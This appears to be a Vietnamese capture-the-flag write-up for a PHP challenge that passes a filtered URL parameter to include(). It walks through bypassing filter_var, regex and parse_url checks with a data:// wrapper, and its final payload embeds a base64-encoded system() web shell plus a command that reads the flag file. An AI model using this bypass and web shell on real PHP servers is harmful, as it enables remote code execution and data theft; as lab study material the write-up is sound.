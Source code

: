 Đầu tiên vào trang web sẽ cho source như sau:

```php
 <?php
  ini_set('open_basedir', '.');
  if(isset($_GET['url'])){
    $url = $_GET['url']; //.".txt";       I think i should make this challenge eaiser :)))
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  else {
    highlight_file(__FILE__); 
    exit();
  }
  // Hint: Google is your friend!!!! XD
?> 
```

Rồi phân tích `source`, thì trông source có vẻ filter khá là nhiều. Tìm cách để có thể lấy được flag nào. Nhìn thấy dòng include $url có vẻ là chúng ta cần đọc file qua include.

Vậy làm cách nào để có thể qua được cả đống filter thế kia. Đầu tiên mình nghĩ đến việc bypass `parse_url` vì hôm trước có làm một bài như vậy. Tìm trên mạng, tìm thấy các cách như dử dụng `//` hay là `@`, `#` các thứ nhưng chốt lại là chả cái nào qua được cái ```if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");```.

Đến đây mình khá là bế tắc. Rồi suy nghĩ là tại sao mình không dùng `wraper php` nhỉ. Và rồi mình test thử một payload đơn giản là: `?url=data://text/plain;base64` và nó qua được filter_var thật.

![image](https://user-images.githubusercontent.com/96786536/157479071-01934455-36be-4143-86b9-0ac81d5ffbac.png)

Ok bypass tiếp cái thứ hai thôi. Để bypass qua cái thứ hai mình đã sử dụng payload: ```?url=data://http://nhienit.kma:2010/plain;base64```

![image](https://user-images.githubusercontent.com/96786536/157479904-1ee50f23-09d6-400f-b3c4-bb7b1afb6d7c.png)

Ok nhưng nó vẫn báo là `invalid host or port`. Rồi để xem nó `parse_url` trả về cái gì sau kho mình up payload nên thì mình đã chạy trên local và được:

![image](https://user-images.githubusercontent.com/96786536/157480691-555e1e20-706b-4c72-9917-3176f2db87f0.png)

Có vẻ là hàm parse_url trả về schema là `data` và host lại là `http`. Vậy là ta chỉ cần thay chỗ http thành `nhienit.kma:2010` là được.

![image](https://user-images.githubusercontent.com/96786536/157481397-0925cb91-a85e-4462-bfd4-02ed1e3c8919.png)

Thêm `http://nhienit.kma:2010` vào phần path là đã thành công bypass qua tất cả payload rồi.

Đây là payload cuối cùng để có thể `RCE`:

Payload: `?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pg==`.

`PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pg==` là base64 encode của `<?php system($_GET['c']); ?>`.

Ok thành công up shell. Lục lọi tìm flag thôi(vì flag nằm linh tinh ở đâu đó).

Cuối cùng cũng thấy:

![image](https://user-images.githubusercontent.com/96786536/157483670-cdcd3173-57f4-4c01-8ea8-356e9f4b272a.png)

Payload:
```?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOyA/Pg==&c=cat ../../../flag```

Cảm ơn mọi người đã đọc. Bye!!!
